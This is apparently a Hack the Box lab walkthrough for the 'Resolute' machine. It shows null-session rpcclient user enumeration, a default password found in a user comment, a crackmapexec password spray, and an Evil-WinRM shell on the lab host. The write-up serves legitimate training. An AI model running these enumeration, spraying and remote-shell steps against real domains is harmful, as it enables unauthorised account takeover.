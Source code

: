 # Hack the Box - Resolute

# Enumeration
## NMAP
```CSS
▶ 
```

## RPC Client
  - Null Session Authentication
```CSS
▶ rpcclient -U "" -N 10.10.10.169
```

  - Enumerate Domain Users
```CSS
rpcclient $> enumdomusers
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d4596127-4b1b-4957-ac1b-c0e30d6cd312)

  - Query Users Info
```CSS
rpcclient $> querydispinfo
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ec7322f6-3ebb-4fb8-8691-c8c92af2dc0e)
The above command return brief information about all the users. An interesting comment for `RID 0x457` is also found.
```CSS
Credentials - marko:Welcome123!
```

  - Query Single User's Info
```CSS
rpcclient $> queryuser 0x1f4
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/56612aa0-fa48-41b2-ad95-e6cd47bf97a5)

---

## SMB
  - Attempt to login with found credentials.
```CSS
▶ crackmapexec smb 10.10.10.169 -u marco -p 'Welcome123!' --continue-on-success
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a8ca9538-8a8c-45f6-8263-89df0d2eaeb9)

### Password Spray
  - Create a file containing the list of users found via RPC.
  - Authenticate as any user using the password default password found.
```CSS
▶ vim users.txt

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5] 
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]   
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```
Use within vim to extract the usernames:`%s/user:\[\(.*\)\] rid:\[.*\]/\1/g`

  - Password Spray
```CSS
▶ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' --continue-on-success
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8f91e8ba-959b-47e8-bf89-3f0a19668ac7)

```CSS
Credentials- melanie:Welcome123!
```

---

# FootHold
## Evil-WinRM Shell
```CSS
▶ evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/e36af976-1ab7-4e1d-80f3-4512e6388fd6)

